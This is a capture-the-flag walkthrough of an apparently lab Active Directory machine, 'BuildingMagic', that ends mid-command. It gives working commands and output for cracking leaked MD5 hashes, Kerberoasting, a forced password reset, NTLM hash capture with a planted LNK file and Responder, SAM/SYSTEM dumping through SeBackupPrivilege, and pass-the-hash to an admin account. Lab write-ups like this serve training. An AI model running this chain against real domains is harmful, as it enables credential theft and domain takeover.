

# BuildingMagic

## Info

The above show a leaked database. We can try to crack the hashes later

```bash
id	username	full_name	role		password
1	r.widdleton	Ron Widdleton	Intern Builder	c4a21c4d438819d73d24851e7966229c
2	n.bottomsworth	Neville Bottomsworth Plannner	61ee643c5043eadbcdc6c9d1e3ebd298
3	l.layman	Luna Layman	Planner		8960516f904051176cc5ef67869de88f
4	c.smith		Chen Smith	Builder		bbd151e24516a48790b2cd5845e7f148
5	d.thomas	Dean Thomas	Builder		4d14ff3e264f6a9891aa6cea1cfa17cb
6	s.winnigan	Samuel Winnigan	HR Manager	078576a0569f4e0b758aedf650cb6d9a
7	p.jackson	Parvati Jackson	Shift Lead	eada74b2fa7f5e142ac412d767831b54
8	b.builder	Bob Builder	Electrician	dd4137bab3b52b55f99f18b7cd595448
9	t.ren		Theodore Ren	Safety Officer	bfaf794a81438488e57ee3954c27cd75
10	e.macmillan	Ernest Macmillan Surveyor	47d23284395f618bea1959e710bc68ef
```

## Port Scan

Because we might be able to crack some of the above hashes, we might already able to harvest the loots, but i still believe it is a good practice to perform a port scan anyways.

```bash
└─$ rustscan -a buildingmagic.hsm --ulimit 5000 -- -A -oN nmap.log
...
Open 10.1.250.203:53
Open 10.1.250.203:80
Open 10.1.250.203:88
Open 10.1.250.203:135
Open 10.1.250.203:139
Open 10.1.250.203:389
Open 10.1.250.203:445
Open 10.1.250.203:464
Open 10.1.250.203:593
Open 10.1.250.203:3268
Open 10.1.250.203:3389
Open 10.1.250.203:5985
Open 10.1.250.203:8080
Open 10.1.250.203:9389
Open 10.1.250.203:49664
Open 10.1.250.203:49669
Open 10.1.250.203:49675
Open 10.1.250.203:49676
Open 10.1.250.203:49729
...

PORT      STATE    SERVICE        REASON      VERSION
53/tcp    filtered domain         no-response
80/tcp    filtered http           no-response
88/tcp    filtered kerberos-sec   no-response
135/tcp   filtered msrpc          no-response
139/tcp   filtered netbios-ssn    no-response
389/tcp   filtered ldap           no-response
445/tcp   filtered microsoft-ds   no-response
464/tcp   filtered kpasswd5       no-response
593/tcp   filtered http-rpc-epmap no-response
3268/tcp  filtered globalcatLDAP  no-response
3389/tcp  filtered ms-wbt-server  no-response
5985/tcp  filtered wsman          no-response
8080/tcp  filtered http-proxy     no-response
9389/tcp  filtered adws           no-response
49664/tcp filtered unknown        no-response
49669/tcp filtered unknown        no-response
49675/tcp filtered unknown        no-response
49676/tcp filtered unknown        no-response
49729/tcp filtered unknown        no-response
Too many fingerprints match this host to give specific OS details
```

We can confirm it is a domain controller

## Compromise `r.widdleton`

Only the first password is able to crack `r.widdleton:lilronron`

```bash
└─$ hashcat password.txt /usr/share/wordlists/rockyou.txt -m 0
...
c4a21c4d438819d73d24851e7966229c:lilronron                
...
```

Using this, we can have a glimpse of the available shares

```bash
└─$ nxc smb buildingmagic.local -u r.widdleton -p lilronron --shares
SMB         10.1.250.203    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.250.203    445    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron 
SMB         10.1.250.203    445    DC01             [*] Enumerated shares
SMB         10.1.250.203    445    DC01             Share           Permissions            Remark
SMB         10.1.250.203    445    DC01             -----           -----------            ------
SMB         10.1.250.203    445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.250.203    445    DC01             C$                                     Default share
SMB         10.1.250.203    445    DC01             File-Share                             Central Repository of Building Magic's files.
SMB         10.1.250.203    445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.250.203    445    DC01             NETLOGON                               Logon server share 
SMB         10.1.250.203    445    DC01             SYSVOL                                 Logon server share 
```

The IPC$ share is a build-in share, so we can skip it

If we use crackstation.net, we can also find the credentials `t.ren:shadowhex7`


Unable to logon to the t.ren account, maybe the account is disabled or the user has changed the password

```bash
└─$ nxc smb buildingmagic.local -u t.ren -p shadowhex7 --shares          
SMB         10.1.250.203    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.250.203    445    DC01             [-] BUILDINGMAGIC.LOCAL\t.ren:shadowhex7 STATUS_LOGON_FAILURE 
```

By now, we have obtain the following credentials

```bash
r.widdleton:lilronron
t.ren:shadowhex7 #Unable to use
```

## Bloodhound

With the `r.widdleton` account, we can finally collect the loot

```bash
└─$ nxc ldap 10.1.250.203 -d buildingmagic.local -u r.widdleton -p lilronron --bloodhound --collection All --dns-server 10.1.250.203 --verbose
[10:58:02] INFO     Socket info: host=10.1.250.203, hostname=10.1.250.203, kerberos=False, ipv6=False, link-local ipv6=False                                                 connection.py:177
           INFO     Connecting to ldap://10.1.250.203 with no baseDN                                                                                                               ldap.py:109
LDAP        10.1.250.203    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:buildingmagic.local) (signing:None) (channel binding:No TLS cert) 
[10:58:04] INFO     Connecting to ldap://DC01.BUILDINGMAGIC.LOCAL - DC=BUILDINGMAGIC,DC=LOCAL - 10.1.250.203 [3]                                                                   ldap.py:456
LDAP        10.1.250.203    389    DC01             [+] buildingmagic.local\r.widdleton:lilronron 
LDAP        10.1.250.203    389    DC01             Resolved collection methods: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
LDAP        10.1.250.203    389    DC01             Excluded collection methods: 
[10:58:07] INFO     Found AD domain: buildingmagic.local                                                                                                                         domain.py:753
           INFO     Connecting to LDAP server: dc01.buildingmagic.local                                                                                                           domain.py:63
[10:58:18] INFO     Found 1 domains                                                                                                                                              domain.py:359
           INFO     Found 1 domains in the forest                                                                                                                                domain.py:398
           INFO     Found 1 computers                                                                                                                                            domain.py:587
[10:58:19] INFO     Connecting to LDAP server: dc01.buildingmagic.local                                                                                                           domain.py:63
[10:58:26] INFO     Found 9 users                                                                                                                                          outputworker.py:147
[10:58:29] INFO     Found 52 groups                                                                                                                                        outputworker.py:147
[10:58:30] INFO     Found 3 gpos                                                                                                                                           outputworker.py:147
[10:58:31] INFO     Connecting to GC LDAP server: dc01.buildingmagic.local                                                                                                       domain.py:140
[10:58:35] WARNING  Could not resolve GPO link to CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=System,DC=WIZARDING,DC=THM                                       memberships.py:592
           INFO     Found 2 ous                                                                                                                                            outputworker.py:147
[10:58:41] INFO     Found 19 containers                                                                                                                                    outputworker.py:147
[10:58:42] INFO     Found 0 trusts                                                                                                                                              domains.py:156
           WARNING  Could not resolve GPO link to cn={16B4CBF5-F6BE-49AA-98C9-F0A424DFB2C4},cn=policies,cn=system,DC=WIZARDING,DC=THM                                           domains.py:168
[10:58:43] WARNING  Could not resolve GPO link to CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=WIZARDING,DC=THM                                           domains.py:168
           INFO     Starting computer enumeration with 10 workers                                                                                                              computers.py:78
           INFO     Querying computer: DC01.BUILDINGMAGIC.LOCAL                                                                                                               computers.py:288
LDAP        10.1.250.203    389    DC01             Bloodhound data collection completed in 1M 7S
LDAP        10.1.250.203    389    DC01             Collecting ADCS data (CertiHound)...
LDAP        10.1.250.203    389    DC01             Found 0 certificate templates
LDAP        10.1.250.203    389    DC01             Found 0 Enterprise CAs
[10:59:16] INFO     Detection complete: 0 attack path edges, 0 vulnerable templates                                                                                            exporter.py:369
LDAP        10.1.250.203    389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.250.203_2026-06-30_105804_bloodhound.zip
```

## BloodHound

Here is a glimpse of the relations after import.



We are a member of:

- DOMAIN USERS
- AUTHENTICATED USERS
- USERS
- EVERYONE
- PRE-WINDOWS 2000 COMPATIBLE ACCESS

These groups are unable to bring us further


I also checked for the shortest path, and other built-in queries, but none of them help us to proceed.

However, there is one Kerberoastable user called `r.haggard`


## Potential Attack Path

With the above info, we (actually Tyler lol) can conclude the following possible attack path

1. Kerberoast `r.haggard`
2. Change password of `h.potch` 
    
    
    
3. See if we can further escalate from `H.Potch`  account.

From now, we can only hope there is some privileges or credentials in the `H.Potch` account.

## Compromising `r.haggard` (Kerberoasting)

using the `--kerberoasting` flag, we can obtain the hash of `r.haggard`

```bash
└─$ nxc ldap buildingmagic.local -u r.widdleton -p lilronron --kerberoasting kerberoasting.txt
LDAP        10.1.250.203    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.250.203    389    DC01             [+] BUILDINGMAGIC.LOCAL\r.widdleton:lilronron 
LDAP        10.1.250.203    389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.1.250.203    389    DC01             [*] Total of records returned 1
LDAP        10.1.250.203    389    DC01             [*] sAMAccountName: r.haggard, memberOf: [], pwdLastSet: 2025-05-16 05:09:04.002067, lastLogon: 2025-05-16 06:34:51.644710
LDAP        10.1.250.203    389    DC01             $krb5tgs$23$*r.haggard$BUILDINGMAGIC.LOCAL$BUILDINGMAGIC.LOCAL\r.haggard*$9ab4f9a9541207d9fd15a9e12a1c58d5$0149f18e9d03ec9a8b134d9b4c26ddb4b78d8c2dd65e4527f037b11e269e6195e3db48d9e8dd4595fc649be61b8afcb1557fc7cfa6bfe6b32dd65cb413a3e20f232f15bfd440c6f00b716734d9c090eab60d9c7353f547ec4552d2c98c21f7ce8d0ce34147961063f058436fcf65537c42c481a36cf243ea996c0ef3a065d2fa2f297cecf8b47c5370a2a843ba6856843b2e439432f96eae4651c6c7042acf405f9a42b78f0d0b83971874e7b1002de01b0d9272cb164a4a2f6d542934404c913c571694e49b14ec289ec00ed740c8b6557fd426e15d070493acdabd9b160ce047c419e446d96b4b954a31773e7411ae052e000f48bba039a7c71de4510b4f512e1fb7987deb417e5c3aeab00914d2938a3003d9dd07c9b0dc331a3ffc9ecfd9b8a0075fa81eeaf33bda139a94dbccb523db7a24ec7f612d0b703bd4715f581dff18057db52499d62d400582afe11cfbce9cff75490f3f9f5c28df61242d3c287366f55b692a1105f75aca1f24b9dd2d72cfc725157cc3b5eb5dd6d014ccb07b9228de7e9a73bd7d6097aaa61aea372384906b5a3e03e91f37c1e179d51abe31c88ffeae63cd185a3226a4b070ea3f1f3688ca6ff76c793efb47069579139a4fb5806797d211e0949d583eba5388906b6d73bdf805348222d69555006c87d2a6918175fd3bd179f14f57a602c86f16aeaccafafa35b6f66c8f60eb5a976d76ff7d1a51e5293cb62393210803761511b66ea241c0efaeb8e6331faebc1ebb101548d5429beda83b30c26b5cc19deacb2dad91d3b4fbc20fe1dd88b60f4ab619c3bc494cb03b816ab945a2605b9e00f3fec37131a5f0cd1c974e0295a8ecd8287784e3fcdd4951e5e6233b884c95e2132120a09368555918c7cea83d043cf713ef62cce154f0978dae4248654a50d97d3faff1f908c7332bcd578c9f26249e7b08dcb83d0a9ae2661c31574206dac64afb36ffe0f599548e49c1474679415c4bbc2feedac87cf380e3487983bee980974af04c7d82c28487a7e16e7c4c6fb31854a24eba331ca4d840a708769331942ae0eb4f9c7ce3dcc40430d50a0202a50f0877faf0770943253b498da86c6a53fbe96dcc7f200cdcfc670583a3b9f313167ed5f5f79ec1f3a6f2e8d8d1246586587f449d3faec3a07de54b44399990855123042c4a2421c477526d1db3923332c3c90106b2f4c3b21b26e10369c932b9af75f899ad15661190d6203fdb7c4d3420ddde2d149342a9db57a1765e6cee11746c5881152df2a6cc5d3ea00a249449610a70999b1c8da345a2fa22ca5ba944807e70146b4a0f34b21f89f745122a7c541815edf913e02c1f7dc99d1f7d3efc2f9bb89f608fde1e80967b03ad5a55986579605791d9d82ecafa483accfe807adb4e76951f89d1069a2dddab770043c523a78bb098f01a2debbfb0c2532c86cc30fd847555437a1962b33f4785b04caefaf5320f28920becd3b20ce763baa53dbd2026b2956a4e6e50937060c8363f315321e6064a2f58479cea057d129badba395e8a1fe87e26009099653ef0cde970cb
```

Crack the hash

```bash
└─$ hashcat kerberoasting.txt /usr/share/wordlists/rockyou.txt
...

$krb5tgs$23$*r.haggard$BUILDINGMAGIC.LOCAL$BUILDINGMAGIC.LOCAL\r.haggard*$9ab4f9a9541207d9fd15a9e12a1c58d5$0149f18e9d03ec9a8b134d9b4c26ddb4b78d8c2dd65e4527f037b11e269e6195e3db48d9e8dd4595fc649be61b8afcb1557fc7cfa6bfe6b32dd65cb413a3e20f232f15bfd440c6f00b716734d9c090eab60d9c7353f547ec4552d2c98c21f7ce8d0ce34147961063f058436fcf65537c42c481a36cf243ea996c0ef3a065d2fa2f297cecf8b47c5370a2a843ba6856843b2e439432f96eae4651c6c7042acf405f9a42b78f0d0b83971874e7b1002de01b0d9272cb164a4a2f6d542934404c913c571694e49b14ec289ec00ed740c8b6557fd426e15d070493acdabd9b160ce047c419e446d96b4b954a31773e7411ae052e000f48bba039a7c71de4510b4f512e1fb7987deb417e5c3aeab00914d2938a3003d9dd07c9b0dc331a3ffc9ecfd9b8a0075fa81eeaf33bda139a94dbccb523db7a24ec7f612d0b703bd4715f581dff18057db52499d62d400582afe11cfbce9cff75490f3f9f5c28df61242d3c287366f55b692a1105f75aca1f24b9dd2d72cfc725157cc3b5eb5dd6d014ccb07b9228de7e9a73bd7d6097aaa61aea372384906b5a3e03e91f37c1e179d51abe31c88ffeae63cd185a3226a4b070ea3f1f3688ca6ff76c793efb47069579139a4fb5806797d211e0949d583eba5388906b6d73bdf805348222d69555006c87d2a6918175fd3bd179f14f57a602c86f16aeaccafafa35b6f66c8f60eb5a976d76ff7d1a51e5293cb62393210803761511b66ea241c0efaeb8e6331faebc1ebb101548d5429beda83b30c26b5cc19deacb2dad91d3b4fbc20fe1dd88b60f4ab619c3bc494cb03b816ab945a2605b9e00f3fec37131a5f0cd1c974e0295a8ecd8287784e3fcdd4951e5e6233b884c95e2132120a09368555918c7cea83d043cf713ef62cce154f0978dae4248654a50d97d3faff1f908c7332bcd578c9f26249e7b08dcb83d0a9ae2661c31574206dac64afb36ffe0f599548e49c1474679415c4bbc2feedac87cf380e3487983bee980974af04c7d82c28487a7e16e7c4c6fb31854a24eba331ca4d840a708769331942ae0eb4f9c7ce3dcc40430d50a0202a50f0877faf0770943253b498da86c6a53fbe96dcc7f200cdcfc670583a3b9f313167ed5f5f79ec1f3a6f2e8d8d1246586587f449d3faec3a07de54b44399990855123042c4a2421c477526d1db3923332c3c90106b2f4c3b21b26e10369c932b9af75f899ad15661190d6203fdb7c4d3420ddde2d149342a9db57a1765e6cee11746c5881152df2a6cc5d3ea00a249449610a70999b1c8da345a2fa22ca5ba944807e70146b4a0f34b21f89f745122a7c541815edf913e02c1f7dc99d1f7d3efc2f9bb89f608fde1e80967b03ad5a55986579605791d9d82ecafa483accfe807adb4e76951f89d1069a2dddab770043c523a78bb098f01a2debbfb0c2532c86cc30fd847555437a1962b33f4785b04caefaf5320f28920becd3b20ce763baa53dbd2026b2956a4e6e50937060c8363f315321e6064a2f58479cea057d129badba395e8a1fe87e26009099653ef0cde970cb:rubeushagrid
...
```

`r.haggard` account is now compromised

```bash
r.haggard:rubeushagrid                                                     
```

## Compromising `h.potch`

As a sanity check, I check the shares `r.haggard` can reach while testing if the `r.haggard` credentials are usable

```bash
└─$ nxc smb buildingmagic.local -u r.haggard -p rubeushagrid --shares
SMB         10.1.250.203    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.250.203    445    DC01             [+] BUILDINGMAGIC.LOCAL\r.haggard:rubeushagrid 
SMB         10.1.250.203    445    DC01             [*] Enumerated shares
SMB         10.1.250.203    445    DC01             Share           Permissions            Remark
SMB         10.1.250.203    445    DC01             -----           -----------            ------
SMB         10.1.250.203    445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.250.203    445    DC01             C$                                     Default share
SMB         10.1.250.203    445    DC01             File-Share                             Central Repository of Building Magic's files.
SMB         10.1.250.203    445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.250.203    445    DC01             NETLOGON        READ                   Logon server share 
SMB         10.1.250.203    445    DC01             SYSVOL          READ                   Logon server share 
```

The shares contains nothing. But remember, we can reset `h.potch` password


Following bloodhound, we can reach the following commands

```bash
net rpc password "h.potch" "Test1234!" -U "buildingmagic.local"/"r.haggard"%"rubeushagrid" -S "dc01.buildingmagic.local"
```

After running the command, we can see that we can login as `h.potch`

```bash
└─$ net rpc password "h.potch" "Test1234!" -U "buildingmagic.local"/"r.haggard"%"rubeushagrid" -S "dc01.buildingmagic.local"

└─$ nxc smb buildingmagic.local -u h.potch -p Test1234! --shares
SMB         10.1.250.203    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.250.203    445    DC01             [+] BUILDINGMAGIC.LOCAL\h.potch:Test1234! 
SMB         10.1.250.203    445    DC01             [*] Enumerated shares
SMB         10.1.250.203    445    DC01             Share           Permissions            Remark
SMB         10.1.250.203    445    DC01             -----           -----------            ------
SMB         10.1.250.203    445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.250.203    445    DC01             C$                                     Default share
SMB         10.1.250.203    445    DC01             File-Share      READ,WRITE             Central Repository of Building Magic's files.
SMB         10.1.250.203    445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.250.203    445    DC01             NETLOGON        READ                   Logon server share 
SMB         10.1.250.203    445    DC01             SYSVOL          READ                   Logon server share 
```

## Compromising `h.grangon`

From the above, we find that we have write access to the file-share. There is a modules in `nxc smb` that can write a ink file, and it will steal the NTLM Hash of that user

```bash
[*] slinky                    Creates windows shortcuts with the icon attribute containing a URI to the specified  server (default SMB) in all shares with write permissions
```

To perform that, we first need to use responder to intercept the traffic

```bash
└─$ sudo responder -I tun0 
```

Then we can use the module by specifying the `SERVER`, `SHARES`, and the `NAME` of the ink

```bash
└─$ nxc smb buildingmagic.local -u h.potch -p Test1234! -M slinky -o SERVER=buildingmagic.local SHARES=File-Share NAME=Test
SMB         10.1.250.203    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.250.203    445    DC01             [+] BUILDINGMAGIC.LOCAL\h.potch:Test1234! 
SMB         10.1.250.203    445    DC01             [*] Enumerated shares
SMB         10.1.250.203    445    DC01             Share           Permissions            Remark
SMB         10.1.250.203    445    DC01             -----           -----------            ------
SMB         10.1.250.203    445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.250.203    445    DC01             C$                                     Default share
SMB         10.1.250.203    445    DC01             File-Share      READ,WRITE             Central Repository of Building Magic's files.
SMB         10.1.250.203    445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.250.203    445    DC01             NETLOGON        READ                   Logon server share 
SMB         10.1.250.203    445    DC01             SYSVOL          READ                   Logon server share 
SLINKY      10.1.250.203    445    DC01             [+] Found writable share: File-Share
SLINKY      10.1.250.203    445    DC01             [+] Created LNK file on the File-Share share
```

#### **Important Note!!!**

As of 11/17/25, Responder is no longer catching this hash. I'm not entirely sure why, and the author of the machine is actively troubleshooting it. Below is the full hash you'd receive in Responder if this part of the machine is working.

```
[SMB] NTLMv2-SSP Client   : 10.1.131.202
[SMB] NTLMv2-SSP Username : BUILDINGMAGIC\h.grangon
[SMB] NTLMv2-SSP Hash     : h.grangon::BUILDINGMAGIC:2e892b8635e20f7f:B74280E1743FF7707D6FF63763700163:0101000000000000002DEBDF5B23DC0199BF12BCBACBD0650000000002000800380059004B00300001001E00570049004E002D00570035003000330051004E004400590031004700420004003400570049004E002D00570035003000330051004E00440059003100470042002E00380059004B0030002E004C004F00430041004C0003001400380059004B0030002E004C004F00430041004C0005001400380059004B0030002E004C004F00430041004C0007000800002DEBDF5B23DC010600040002000000080030003000000000000000000000000040000030CEBA6FF355E7262F7687484F8E1CB0FC5AD5949065F58863D05D65597D35B20A001000000000000000000000000000000000000900220063006900660073002F00310030002E003200300030002E0030002E003100330037000000000000000000 
```

The above exploitable can be explained by the following, it is called as **LLMNR/NBNS Poisoning**


After a few tries, responder still cannot catch the hash. However, this technique works on other AD rooms.

Using the given result, we can obtain the password of `h.grangon`, which is `magic4ever`

```bash
└─$ hashcat h_grangon.txt /usr/share/wordlists/rockyou.txt -m 5600hashcat (v7.1.2) starting
...
H.GRANGON::BUILDINGMAGIC:2e892b8635e20f7f:b74280e1743ff7707d6ff63763700163:0101000000000000002debdf5b23dc0199bf12bcbacbd0650000000002000800380059004b00300001001e00570049004e002d00570035003000330051004e004400590031004700420004003400570049004e002d00570035003000330051004e00440059003100470042002e00380059004b0030002e004c004f00430041004c0003001400380059004b0030002e004c004f00430041004c0005001400380059004b0030002e004c004f00430041004c0007000800002debdf5b23dc010600040002000000080030003000000000000000000000000040000030ceba6ff355e7262f7687484f8e1cb0fc5ad5949065f58863d05d65597d35b20a001000000000000000000000000000000000000900220063006900660073002f00310030002e003200300030002e0030002e003100330037000000000000000000:magic4ever                                                          
```

To take note, we now have:

```bash
h.grangon:magic4ever
```

## SeBackUp

As usual, we can try to connect

```bash
└─$ nxc smb buildingmagic.local -u h.grangon -p magic4ever --shares
SMB         10.1.250.203    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:BUILDINGMAGIC.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.250.203    445    DC01             [+] BUILDINGMAGIC.LOCAL\h.grangon:magic4ever 
SMB         10.1.250.203    445    DC01             [*] Enumerated shares
SMB         10.1.250.203    445    DC01             Share           Permissions            Remark
SMB         10.1.250.203    445    DC01             -----           -----------            ------
SMB         10.1.250.203    445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.250.203    445    DC01             C$                                     Default share
SMB         10.1.250.203    445    DC01             File-Share      READ,WRITE             Central Repository of Building Magic's files.
SMB         10.1.250.203    445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.250.203    445    DC01             NETLOGON        READ                   Logon server share 
SMB         10.1.250.203    445    DC01             SYSVOL          READ                   Logon server share 
```

`h.grangon` is a member of the **remote management**, which should allow us to use `evil-winrm`


Once we are connected. we found that we have backup privilege

```bash
└─$ evil-winrm -i dc01.buildingmagic.local -u h.grangon -p magic4ever
...
*Evil-WinRM* PS C:\Users\h.grangon\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can first grab the user flag first

```bash
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> dir

    Directory: C:\Users\h.grangon\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/2/2025   7:41 PM           2308 Microsoft Edge.lnk
-a----          9/2/2025   7:41 PM             32 user.txt

```

Go back to exploiting the `SeBackupPrivilege` by using `reg save` to dump the registry hive

```bash
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> reg save HKLM\SAM SAM
The operation completed successfully.

*Evil-WinRM* PS C:\Users\h.grangon\Desktop> reg save HKLM\SYSTEM SYSTEM
The operation completed successfully.
```

After that, we can download the files

```bash
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> download SAM
                                        
Info: Downloading C:\Users\h.grangon\Desktop\SAM to SAM
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\h.grangon\Desktop> download SYSTEM
                                        
Info: Downloading C:\Users\h.grangon\Desktop\SYSTEM to SYSTEM
                                        
Info: Download successful!
```

The `impacket-secretdump` allow us to extract the NTLM hash locally

```bash
└─$ impacket-secretsdump -sam SAM -system SYSTEM local
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xf61a94fb13f74350a1f87f509c8c455c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

With the above hashes, we can just pass the hashes instead of cracking them

## Compromising `a.flatch` (Pass-The-Hash + password-reuse )

We are interested in the  administrator account, however it seems it is disabled

```bash
└─$ evil-winrm -i dc01.buildingmagic.local -u Administrator -H 520126a03f5d5a8d836f1c4f34ede7ce

Evil-WinRM shell v3.9
                                                                                                                                                                                                                                            
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                                                            
                                                                                                                                                                                                                                            
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                       
                                                                                                                                                                                                                                            
Info: Establishing connection to remote endpoint                                                                                                                                                                                            
*Evil-WinRM* PS C:\> whoami 
                                                                                                                                                                                                                                            
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError                                                                                                                                  
                                                                                                                                                                                                                                            
Error: Exiting with code 1   
```

looking upon all users, it seems that only `a.flatch` is left untouched

```bash
*Evil-WinRM* PS C:\Users\h.grangon\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
a.flatch                 Administrator            Guest
h.grangon                h.potch                  krbtgt
r.haggard                r.widdleton
The command completed with one or more errors.
```

Look at this juicy account in bloodhound


What if the account reuse password :0

```bash
└─$ evil-winrm -i dc01.buildingmagic.local -u a.flatch -H 520126a03f5d5a8d836f1c4f34ede7ce                                                                                                                                             
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\a.flatch\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

With this account, we can read the root flag.

```bash
*Evil-WinRM* PS C:\Users\a.flatch\Documents> cd ..\..\Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
